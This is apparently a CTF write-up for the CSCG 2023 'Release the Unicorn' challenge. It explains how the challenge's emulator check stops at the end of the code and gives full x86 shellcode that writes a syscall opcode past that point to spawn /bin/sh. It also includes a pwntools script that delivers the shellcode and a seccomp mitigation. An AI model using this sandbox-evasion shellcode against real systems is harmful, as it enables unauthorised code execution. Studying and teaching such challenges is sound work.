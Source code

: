 +++
title = 'CSCG 2023 - Release the Unicorn'
date = 2023-04-23

summary = 'Shellcode execution as a service. Can you outsmart the unicorn?'
tags = [ 'writeups' , 'pwn', 'cscg2023']
+++
# Release the unicorn
> **Category:** Misc
>
> **Difficulty:** Easy
>
> **Hint:** Shellcode execution as a service. Can you outsmart the unicorn?

## Overview
The user can provide. The challenge will first execute the shellcode using the *Unicorn* Emulator. If the emulator did not find any *syscall* or *sysenter*, my shellcode gets executed for real.

## Vulnerability
The emulator only executes until the ende of the code length. The vulnerable code is here:

```rust
42  // Run emulation
43  emu.emu_start(BASE_ADDR, (BASE_ADDR as usize + code.len()) as u64, 0, 0)?;
```
The first argument is the start address and the second is the end address. During real execution, instructions after the end addess will still be executed.

## Exploit
My exploit writes the opcode for `syscall` at the end of the shellcode. To get the address of `rip` we use the fact that a `call` instruction pushes `rip` on the stack:
```mips
jmp begin
next:
    pop rcx
    push rcx
    ret
begin:
call next
``` 
Now I have `rip` in `rcx`. After counting the bytes of the rest of the shellcode, I write `0f05` at the end of my shellcode, the opcode for `syscall`.

```mips
add rcx, 44
mov word ptr [rcx], 0x050f
```

Afterwards I just add a standard `execve("/bin/sh", 0, 0)` shellcode that can be created with `pwn.asm(pwn.shellcraft("/bin/sh"))`. I remove the `syscall` and assemble the shellcode.

## Code
The full shellcode is:
```mips
/* save rip */
jmp begin
next:
    pop rcx
    push rcx
    ret
begin:
call next
/* save syscall at the end */
add rcx, 44
mov word ptr [rcx], 0x050f
/* /bin/sh shellcode */
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x68732f6e69622f
xor [rsp], rax
mov rdi, rsp
xor edx, edx 
xor esi, esi 
push 59
pop rax
/* Tell unicorn to stop */
.byte 00
```

Using the following python script I'm able to get the flag:

```python
from pwn import *
# Shellcode
sc = bytes.fromhex("eb035951c3e8f8ffffff4883c12c66c7010f0548b801010101010101015048b82e63686f2e726901483104244889e731d231f66a3b5800")

URL = "d9fd0a8778664417ed81d7a4-release-the-unicorn.challenge.master.cscg.live"
io = remote(URL, 31337, ssl=True)
io.recvuntil(b'Bytecode')
io.send(sc)
io.interactive()
```
Using `find / -name *flag* 2>/dev/null`, I locate the flag in the `/home/ctf/` folder. 

**Flag** CSCG{w4sn7_s0_s3cur3_4f3r_al1_huh}


# Mitigation
A safer practice to disable syscalls would be the application of `seccomp`. `seccomp` is a method to disallow system calls entirely, which would be a lot harder to circumvent. An example mitigation would be:

```rust
extern crate seccomp;
use seccomp::{Context, Action, Rule};

fn main() {
    // Add User interaction here

    println!("[+] Starting execution...");
    // Disallowing all syscalls
    let mut ctx = Context::default(Action::Allow).unwrap();
    for syscall in 0..=10000 {
        let rule = Rule::new(syscall, None, Action::Kill);
        ctx.add_rule(rule).unwrap();
    }
    ctx.load().unwrap();
    
    
    execute_bytecode(&user_input)
}

```
